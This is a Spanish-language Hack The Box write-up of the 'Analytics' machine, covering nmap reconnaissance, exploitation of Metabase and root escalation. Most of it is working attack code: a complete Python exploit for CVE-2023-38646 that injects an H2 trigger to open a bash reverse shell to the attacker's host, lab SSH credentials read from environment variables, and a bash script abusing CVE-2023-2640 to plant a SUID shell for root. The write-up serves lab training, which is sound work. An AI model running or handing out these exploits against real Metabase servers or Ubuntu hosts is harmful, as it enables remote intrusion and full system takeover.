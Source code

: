 ![Analytics](https://github.com/n0m3l4c000nt35/Hack-The-Box/assets/149972189/f4eb7212-b431-473c-98ee-d8a80af39a64)

# Introducción

---
La máquina Analytics de Hack The Box se centra en la plataforma Metabase, presenta una combinación de vulnerabilidades que van desde una RCE pre-autenticación hasta una escalada de privilegios a través de una vulnerabilidad en el kernel.
Este write-up detalla el proceso de enumeración, explotación y escalada de privilegios para obtener acceso al usuario y obtener el control total del sistema.

# Reconocimiento
---
`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.233 -oG ports`

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-15 13:48 -03
Initiating SYN Stealth Scan at 13:48
Scanning 10.10.11.233 [65535 ports]
Discovered open port 80/tcp on 10.10.11.233
Discovered open port 22/tcp on 10.10.11.233
Completed SYN Stealth Scan at 13:48, 14.93s elapsed (65535 total ports)
Nmap scan report for 10.10.11.233
Host is up, received user-set (0.16s latency).
Scanned at 2023-12-15 13:48:24 -03 for 15s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.22 seconds
           Raw packets sent: 73134 (3.218MB) | Rcvd: 72895 (2.916MB)
```

`nmap -p 22,80 -n -Pn -sCV 10.10.11.233 -oN openPorts`

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-15 13:50 -03
Nmap scan report for 10.10.11.233
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.80 seconds
```

En la fase inicial, se realizó una extensa enumeración de puertos utilizando [Nmap](https://nmap.org/).
La dirección IP se resolvió mediante la configuración del archivo `/etc/hosts`:  
`echo "<target-ip>  analytical.htb data.analytical.htb" >> /etc/hosts`

Se identificaron los servicios en los puertos 22 y 80, este último redirigiendo a `http://data.analytical.htb`. Este redireccionamiento es crucial para la posterior explotación de Metabase.

# Descubrimiento de la vulnerabilidad
---
La investigación reveló una vulnerabilidad pre-autenticación en Metabase, específicamente [CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646). Este fallo permite la ejecución remota de código, proporcionando acceso al servidor.
Un minucioso detalle acerca de la vulnerabilidad se encuentra en [Pre-Auth RCE in Metabase (CVE-2023-38646)](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/).

# Explotación de la Vulnerabilidad
---
Se creó un script en Python para aprovechar la vulnerabilidad, estableciendo una conexión inversa al servidor objetivo. El script aprovecha la vulnerabilidad para ejecutar una shell interactiva, permitiendo al atacante el control total del sistema.

```python
#!/usr/bin/python3

import sys, signal, requests, json, base64, threading, argparse
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...")
    sys.exit(1)

# ctrl + c
signal.signal(signal.SIGINT, def_handler)

def get_arguments():
    parser = argparse.ArgumentParser(description="Analytics Reverse Shell")
    parser.add_argument("-lh", "--lhost", dest="lhost", required=True, help="Your IP (Ex: -lh 192.168.0.1)")
    parser.add_argument("-lp", "--lport", dest="lport", required=True, help="Listening port (Ex: --lport 1234)")
    options = parser.parse_args()

    return options.lhost, options.lport

def get_setup_token():
    response = requests.get("http://data.analytical.htb/api/session/properties", verify=False)
    data = response.json()
    setup_token = data.get("setup-token")
    return setup_token

def create_payload(lhost, lport):
    payload = f"bash -i >& /dev/tcp/{lhost}/{lport} 0>&1"
    payload_base64 = base64.b64encode(payload.encode()).decode()
    return payload_base64

def get_reverse_shell():
    shell_url = "http://data.analytical.htb/api/setup/validate"    
    headers = {"Content-Type": "application/json"}
    shell_data = {
        "token": setup_token,
        "details": {
            "is_on_demand": False,
            "is_full_sync": False,
            "is_sample": False,
            "cache_ttl": None,
            "refingerprint": False,
            "auto_run_queries": True,
            "schedules": {},
            "details": {
                "db": f"zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {{echo,{payload_base64}}}|{{base64,-d}}|{{bash,-i}}')\n$$--=x",
                "advanced-options": False,
                "ssl": True
            },
            "name": "an-sec-research-team",
            "engine": "h2"
        }
    }
    response = requests.post(shell_url, headers=headers, data=json.dumps(shell_data))

if __name__ == '__main__':
    
    lhost, lport = get_arguments()

    setup_token = get_setup_token()
    print(f"\n[+] Setup token: {setup_token}\n")

    payload_base64 = create_payload(lhost, lport)

    threading.Thread(target=get_reverse_shell, args=()).start()

    shell = listen(lport, timeout=20).wait_for_connection()
    shell.interactive()
```

Con el acceso adquirido a través de la vulnerabilidad de Metabase, se procedió a investigar y descubrir credenciales almacenadas en las variables de entorno (`env`). Se identificaron las siguientes credenciales:

```
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

Estas credenciales permitieron el acceso mediante SSH al servidor objetivo. Utilizando el comando:
```bash
ssh metalytics@<target-ip>
An4lytics_ds20223#
```

Se estableció una conexión SSH exitosa, otorgando acceso al sistema como el usuario `metalytics`.
## User Flag
---
Una vez dentro del sistema, se ubicó la user flag en el directorio `/home/metalytics`.
# Escalada de privilegios
---
La fase de escalada de privilegios aprovechó una vulnerabilidad en el kernel [CVE-2023-2640 Detail](https://nvd.nist.gov/vuln/detail/CVE-2023-2640) detectado con el comando `uname -rs`.

Se utilizó un script con el comando `unshare` para obtener privilegios de root. Posteriormente, se obtuvo acceso al sistema como el usuario `root`.

```bash
#!/bin/bash

tmp_bash=/var/tmp/bash

echo -e "\n[+] Comprobando si el archivo '/var/tmp/bash' existe"

if [ -e "$tmp_bash" ] && [ -u "$tmp_bash" ]; then
	echo -e "\n[+] El archivo bash existe y tiene permisos SUID"
	ls -l /var/tmp/bash
	echo -e "\n[+] Ganando acceso como root\n"
	/var/tmp/bash -p
else
	echo -e "\n[!] El archivo $tmp_bash no existe\n"
	unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
fi
```

## Root Flag
---
Con privilegios de root, se localizó la root flag en el directorio `/root`.

> [!IMPORTANT]
> `cat /root/root.txt`
